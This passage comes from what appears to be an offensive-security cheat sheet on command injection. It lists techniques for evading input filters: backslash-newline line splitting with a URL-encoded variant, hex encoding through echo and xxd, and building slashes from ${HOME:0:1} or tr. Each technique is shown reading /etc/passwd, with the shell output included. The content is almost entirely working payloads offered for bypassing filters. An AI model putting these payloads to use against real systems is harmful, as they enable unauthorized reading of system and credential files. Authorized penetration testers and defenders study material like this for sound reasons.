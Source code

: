 {% tab title="Line Return" %}
Commands can be broken into parts by using backslash followed by a newline

```bash
$ cat /et\
c/pa\
sswd
```

URL encoded form would look like this:

```bash
cat%20/et%5C%0Ac/pa%5C%0Asswd
```
{% endtab %}

{% tab title="Hex encoding" %}
We may use hexadecimal encoding in order to bypass filters

```bash
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```
{% endtab %}

{% tab title="Characters Filter" %}
Commands execution without backslash and slash - linux bash

```bash
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```
{% endtab %}
